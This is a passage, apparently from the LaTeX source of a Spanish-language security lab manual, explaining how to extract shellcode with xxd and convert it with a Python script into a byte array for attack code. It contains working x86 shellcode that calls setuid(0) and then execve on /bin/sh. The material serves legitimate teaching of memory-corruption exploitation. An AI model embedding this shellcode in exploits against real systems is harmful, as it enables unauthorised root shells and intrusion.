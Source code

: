 En la impresión anterior, los números que se enmarcan son código máquina. Puede usar el comando \texttt{xxd} para imprimir el contenido del archivo binario y así obtener el código máquina del shellcode.

\begin{lstlisting}
$ xxd -p -c 20 mysh.o
7f454c4601010100000000000000000001000300
...
000000000000000000000000(*@\textbf{31db31c0b0d5cd80}@*)
(*@\textbf{31c050682f2f7368682f62696e89e3505389e131}@*)
(*@\textbf{d231c0b00bcd80}@*)00000000000000000000000000
...
\end{lstlisting}
 

\paragraph{Usando el shellcode en el código de ataque.}
En nuestros ataques, necesitamos incluir el shellcode dentro de nuestro código de ataque sea en Python o en C.
Se suele guardar el código máquina en un arreglo, pero convertir este código para asignárselo a un arreglo en Python o en C, es una tarea un tanto tediosa si se hace manualmente, especialmente si este procedimiento se tiene que repetir varias veces durante el laboratorio.
Hemos escrito un programa en Python para ayudarlo en este proceso. Solamente copie el shellcode obtenido usando el comando \texttt{xxd} y péguelo en el código que se muestra a continuación, entre las líneas marcadas por \texttt{"""}. El código puede ser descargado del sitio oficial del laboratorio.


\begin{lstlisting}[caption=\texttt{convert.py}] 
#!/usr/bin/env python3

# Run "xxd -p -c 20 mysh.o", and
# copy and paste the machine code part to the following:
ori_sh ="""
31db31c0b0d5cd80
31c050682f2f7368682f62696e89e3505389e131
d231c0b00bcd80
"""

sh = ori_sh.replace("\n", "")

length  = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = 'shellcode= (\n' + '   "'
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15:
       s += '"\n' + '   "'
s += '"\n' + ").encode('latin-1')"
print(s)
\end{lstlisting}

El programa \texttt{convert.py} imprimirá el siguiente código en Python, el cual puede incluir en su código de ataque. Este guarda el shellcode dentro de un arreglo Python.
 
